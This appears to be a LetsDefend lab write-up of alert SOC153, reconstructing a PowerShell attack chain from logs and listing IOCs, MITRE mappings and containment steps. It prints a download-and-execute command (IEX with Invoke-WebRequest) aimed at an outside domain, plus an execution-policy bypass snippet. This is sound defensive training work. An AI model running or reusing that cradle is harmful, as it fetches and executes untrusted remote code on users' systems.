









# SOC153 — Suspicious PowerShell Script Executed

**Platform:** LetsDefend  
**Alert ID:** SOC153  
**Category:** Suspicious PowerShell / Malware Execution

---

## 1. Alert Summary

Investigation of SOC153 identified a suspicious PowerShell execution chain on the endpoint. A PowerShell script named `payload_1.ps1` was downloaded through Chrome and later executed by PowerShell. During execution, the script bypassed the PowerShell execution policy for the current process and launched a command that used `Invoke-WebRequest (IWR)` to retrieve a second-stage script, `sd2.ps1`, from `kionagranada.com`. `Invoke-Expression (IEX)` then executed the retrieved PowerShell content in memory. DNS and firewall telemetry confirmed resolution of `kionagranada.com` to `161.22.46.148` and successful outbound HTTPS communication to the host.

**Analysis (one line):** A suspicious PowerShell download cradle was executed, using execution-policy bypass, `IWR` to retrieve a second-stage script, and `IEX` to execute the remote content in memory.

---

## 2. Investigation Timeline

> The LetsDefend log view was not presented in chronological order, so the following sequence was reconstructed by correlating process, PowerShell, DNS, proxy, and firewall telemetry.

1. Chrome downloads `payload_1.ps1` from the Internet.
2. `powershell.exe` starts and executes the downloaded script from the Downloads directory.
3. The script checks the PowerShell execution policy and applies `Set-ExecutionPolicy -Scope Process Bypass` when required.
4. The execution chain leads to `cmd.exe` / `powershell.exe` running the remote-download command.
5. PowerShell executes `IEX(IWR -UseBasicParsing https://kionagranada.com/upload/sd2.ps1)`.
6. PowerShell performs a DNS lookup for `kionagranada.com`, resolving it to `161.22.46.148`.
7. The endpoint establishes an outbound HTTPS connection to `161.22.46.148:443`.
8. `IWR` retrieves the second-stage PowerShell content and `IEX` executes that content in memory.
9. The behavior is detected as suspicious PowerShell activity.

---

## 3. Investigation Steps

### 3.1 PowerShell Script Block Execution



PowerShell Script Block Logging (Event ID 4104) records the suspicious command containing `IEX` and `IWR`. This is strong evidence that PowerShell processed the remote-download-and-execute expression.

### 3.2 Process Chain



The process telemetry shows the relationship between `cmd.exe` and `powershell.exe` during execution. `cmd.exe` is a process in the execution chain; it is not itself the second-stage PowerShell script.

### 3.3 Outbound Network Connection



Firewall telemetry shows a successful outbound connection from the affected endpoint to `161.22.46.148` over TCP port `443`, supporting the PowerShell network activity observed in the other logs.

### 3.4 Suspicious PowerShell Command



The key command observed during the investigation was:

```powershell
IEX(IWR -UseBasicParsing https://kionagranada.com/upload/sd2.ps1)
```

- `IWR` = `Invoke-WebRequest` — retrieves content from the remote URL.
- `IEX` = `Invoke-Expression` — interprets and executes the retrieved content as PowerShell code.
- `-UseBasicParsing` — instructs the web request to use basic response parsing.

Together, this forms a PowerShell **download cradle**: remote script content is retrieved and immediately passed to PowerShell for execution.

### 3.5 Initial Payload Download



Proxy telemetry shows `chrome.exe` downloading `payload_1.ps1`. This is the initial script observed before the later PowerShell activity.

### 3.6 DNS Resolution



Sysmon DNS telemetry shows `powershell.exe` querying `kionagranada.com`. The domain resolved to:

```text
161.22.46.148
```

This correlates directly with the destination observed in the firewall telemetry.

### 3.7 PowerShell Process Creation



Process-creation telemetry confirms that `powershell.exe` was started and that `payload_1.ps1` was associated with execution from the Downloads location.

### 3.8 Execution Policy Bypass



The script contains logic equivalent to:

```powershell
if ((Get-ExecutionPolicy) -ne 'AllSigned') {
    Set-ExecutionPolicy -Scope Process Bypass
}
```

The `Process` scope is important: the bypass applies to the current PowerShell process rather than permanently changing the execution policy for the entire endpoint.

### 3.9 Additional Event Evidence



Additional telemetry from the investigation was retained as supporting evidence for the reconstructed execution chain.

---

## 4. Detection

The alert was generated because PowerShell exhibited a suspicious combination of behaviors: execution of a downloaded `.ps1` script, execution-policy bypass, remote script retrieval with `Invoke-WebRequest`, immediate execution through `Invoke-Expression`, DNS resolution of an external domain, and successful outbound HTTPS communication.

---

## 5. Indicators of Compromise (IOC)

| IOC Type | Value | Context |
|---|---|---|
| Domain | `kionagranada.com` | Hosted/referenced the second-stage `sd2.ps1` script |
| IP Address | `161.22.46.148` | DNS result and outbound HTTPS destination |
| URL | `https://kionagranada.com/upload/sd2.ps1` | Second-stage PowerShell script location |
| File | `payload_1.ps1` | Initial downloaded PowerShell script |
| File | `sd2.ps1` | Remote second-stage PowerShell script |
| Process | `powershell.exe` | Script execution and network activity |
| Process | `cmd.exe` | Process observed in the execution chain |
| Process | `chrome.exe` | Initial payload download |

> **Threat-intelligence note:** The supplied evidence set does not include VirusTotal/AbuseIPDB screenshots for these IOCs, so no malware-family attribution is claimed in this report.

---

## 6. MITRE ATT&CK Mapping

| Tactic | Technique | Evidence |
|---|---|---|
| Execution | **T1059.001 — Command and Scripting Interpreter: PowerShell** | `powershell.exe`, Script Block Logging, `IEX`/`IWR` command |
| Command and Control | **T1105 — Ingress Tool Transfer** | Retrieval of remote `sd2.ps1` content |
| Command and Control | **T1071.001 — Application Layer Protocol: Web Protocols** | HTTPS communication to the remote server |

---

## 7. Verdict

> **True Positive — Suspicious/malicious PowerShell execution confirmed.**

The evidence confirms that a downloaded PowerShell script executed on the endpoint, bypassed the execution policy for its process, contacted an external domain, retrieved a second-stage PowerShell script, and executed the retrieved content using `IEX`. DNS and firewall telemetry independently corroborate the external communication to `161.22.46.148:443`.

The available logs establish execution of the suspicious second-stage PowerShell content, but the supplied evidence does not show what `sd2.ps1` did after execution or identify a specific malware family. Those conclusions would require the script itself, additional endpoint telemetry, or threat-intelligence/sandbox evidence.

---

## 8. Containment & Recommendations

- [ ] Isolate the affected endpoint pending further investigation.
- [ ] Terminate suspicious PowerShell processes if still active.
- [ ] Block `kionagranada.com` and `161.22.46.148` at appropriate network controls.
- [ ] Quarantine/remove `payload_1.ps1` and obtain `sd2.ps1` for static/dynamic analysis if available.
- [ ] Search the environment for other endpoints contacting the same domain/IP or executing the same PowerShell command pattern.
- [ ] Review subsequent process creation, persistence, authentication, and network telemetry to determine post-execution impact.
- [ ] Review how the initial script was delivered/downloaded and whether user interaction or another initial-access mechanism was involved.

---

## 9. Closure

**Analyst Submission:** Malicious Activity Detected — Suspicious PowerShell Script Execution  
**Alert Playbook Followed:** Yes  
**Recommended Escalation:** Yes — additional investigation is required to determine the behavior and impact of the executed second-stage script.

**Closure Note:**
> Investigation confirmed that `payload_1.ps1` was downloaded and executed through PowerShell. The script applied a process-scoped execution-policy bypass and led to execution of `IEX(IWR -UseBasicParsing https://kionagranada.com/upload/sd2.ps1)`. PowerShell resolved `kionagranada.com` to `161.22.46.148` and successfully communicated with the host over HTTPS. The remote content was passed to `IEX` for execution. Verdict: True Positive. Isolate the endpoint, block the identified network IOCs, and investigate the second-stage script and subsequent endpoint activity.

---

## Key Takeaways

- Reconstruct timelines across log sources instead of assuming the SIEM display order represents event order.
- `IEX(IWR <URL>)` is a high-value PowerShell detection pattern because it combines remote content retrieval with immediate execution.
- Correlating Script Block, process, DNS, proxy, and firewall logs provides much stronger evidence than relying on a single event.
- `Set-ExecutionPolicy -Scope Process Bypass` changes policy only for the current PowerShell process, but its presence alongside remote script execution is suspicious.
- Do not assign a malware family without supporting file/hash, sandbox, or threat-intelligence evidence.
